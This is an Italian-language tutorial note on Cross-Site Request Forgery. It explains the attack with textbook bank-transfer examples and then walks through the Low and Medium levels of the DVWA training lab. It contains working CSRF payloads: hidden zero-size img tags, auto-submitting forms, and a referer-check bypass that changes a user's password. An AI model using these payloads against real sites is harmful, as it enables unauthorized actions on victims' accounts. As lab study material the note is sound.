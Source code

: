 ## CSRF

- https://en.wikipedia.org/wiki/Cross-site_request_forgery
- https://owasp.org/www-community/attacks/csrf
- http://www.cgisecurity.com/csrf-faq.html

Cross-Site Request Forgery forza l'utente a fare una richiesta su un sito su cui è autenticato.
L'attacco ha come obiettivo le richieste che cambiano lo stato interno del server, non il furto di dati; infatti l'attaccante non ha modo di vedere la risposta alla richiesta malevola.
A differenza del XSS che sfrutta la fiducia di un utente nel sito, il CSRF sfrutta la fiducia che il sito ha nel browser dell'utente.

Tra le varie tecniche, l'attaccante può spingere la vittima a cliccare il tag html `a` o ad aprire l'email col tag html `img`.
Nell'esempio che segue, l'immagine non viene visualizzata in quanto ha altezza e larghezza pari a `0`.

**Scenario GET**

- tag html `a`: `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`

- tag html `img`: `<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

**Scenario POST**

Richiesta originale:

```
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

Richiesta malevola:

- con interazione della vittima

```
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>
</form>
```

- senza interazione della vittima

```
<body onload="document.forms[0].submit()">

<form ...>
```

**Altri metodi HTTP**

Richiesta originale:

```
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```

Richiesta malevola:

```
<script>
	function put() {
		var x = new XMLHttpRequest();
		x.open("PUT", "http://bank.com/transfer.do", true);
		x.setRequestHeader("Content-Type", "application/json");
		x.send(JSON.stringify({"acct":"BOB", "amount":100}));
	}
</script>

<body onload="put()">
```

Nell'ultimo esempio, la richiesta **non** viene eseguita dai moderni browser grazie alla restrizione *same-origin policy*.
Questa protezione è abilitata di default, a meno che il server abiliti esplicitamente le richieste cross-origin da uno o più siti usando CORS con l'header `Access-Control-Allow-Origin`.

È possibile in alcuni casi rendere persistente l'attacco CSRF sullo stesso sito vulnerabile.
Si parla di stored CSRF flaw.
Si realizza memorizzando un tag IMG o IFRAME in un campo che accetta HTML, o tramite un più complesso attacco XSS.
Se l'attaccante può rendere persistente l'attacco sul sito, la gravità dell'attacco è amplificata.
La probabilità di successo aumenta perchè è la vittima visita più facilmente la pagina infetta rispetto a qualsiasi altra pagina su Internet.
Inoltre la vittima è quasi sicuramente già autenticata al sito vulnerabile.

### CSRF - Low

```
// Get input
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];
```

Richiesta GET originale:

`http://172.17.0.2/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change`

Exploit:

- `<a href="http://172.17.0.2/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change">Link</a>`

- `<img src="http://172.17.0.2/vulnerabilities/csrf/?password_new=password2&password_conf=password2&Change=Change" width="0" height="0" border="0">`

### CSRF - Medium

```
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { ... }
```

- `$_SERVER[ 'HTTP_REFERER' ]`: pagina che ha invocato la richiesta verso l'endpoint
- `$_SERVER[ 'SERVER_NAME' ]`: nome del server su cui lo script viene eseguito

Exploit:

La richiesta deve provenire da una pagina la cui URL contiene il valore di `$_SERVER[ 'SERVER_NAME' ]`.

Creo una pagina `csrf-172.17.0.2.html` contenente il codice HTML `<a href="http://172.17.0.2/vulnerabilities/csrf/?password_new=password3&password_conf=password3&Change=Change">Click me!</a>`.
Il server vulnerabile riceverà una richiesta con `Referer: http://malicious.com/csrf-172.17.0.2.html`, che verifica il controllo di `stripos`.

### CSRF - High

```
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

...

// Generate Anti-CSRF token
generateSessionToken();
```

Exploit:

TODO usa un xss per risolvere questo livello
